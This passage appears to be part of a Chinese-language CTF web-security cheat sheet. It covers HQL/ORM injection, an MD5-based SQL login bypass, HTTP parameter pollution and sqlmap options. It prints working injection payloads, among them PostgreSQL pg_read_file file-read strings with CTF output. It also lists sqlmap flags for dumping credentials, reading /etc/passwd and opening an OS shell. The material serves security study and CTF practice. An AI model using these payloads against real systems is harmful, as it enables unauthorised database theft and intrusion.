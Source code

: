 ## ORM injection

https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications

- Hibernate
    - 單引號跳脫法
        - MySQL中，單引號用`\'`跳脫
        - HQL中，用兩個單引號`''`跳脫
        - `'abc\''or 1=(SELECT 1)--'`
            - 在HQL是一個字串
            - 在MySQL是字串+額外SQL語句
    - Magic Function法
        - PostgreSQL中內建`query_to_xml('Arbitary SQL')`
        - Oracle中有`dbms_xmlgen.getxml('SQL')`

HQL injection example (pwn2win 2017)

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "flag": No such file or directory`

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "secret": No such file or directory`
- `order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`
    - Output: `ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`


## SQL Injection with MD5

- `$sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";`
- ffifdyop
    - md5: `276f722736c95d99e921722cf9ed621c`
    - to string: `'or'6<trash>`

## HTTP Parameter Pollution

- `id=1&id=2&id=3`
    - ASP.NET + IIS: `id=1,2,3`
    - ASP + IIS: `id=1,2,3`
    - PHP + Apache: `id=3`

## SQLmap

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- Usage
    - `python sqlmap.py -u 'test.kaibro.tw/a.php?id=1'`
        - 庫名: `--dbs`
        - 表名: `-D dbname --tables`
        - column: `-D dbname -T tbname --columns`
        - dump: `-D dbname -T tbname --dump`
            - `--start=1`
            - `--stop=5566`
        - DBA? `--is-dba`
        - 爆帳密: `--passwords`
        - 看權限: `--privileges`
        - 拿shell: `--os-shell`
        - interative SQL: `--sql-shell`
        - 讀檔: `--file-read=/etc/passwd`
        - Delay時間: `--time-sec=10`
        - User-Agent: `--random-agent`
        - Thread: `--threads=10`
        - Level: `--level=3`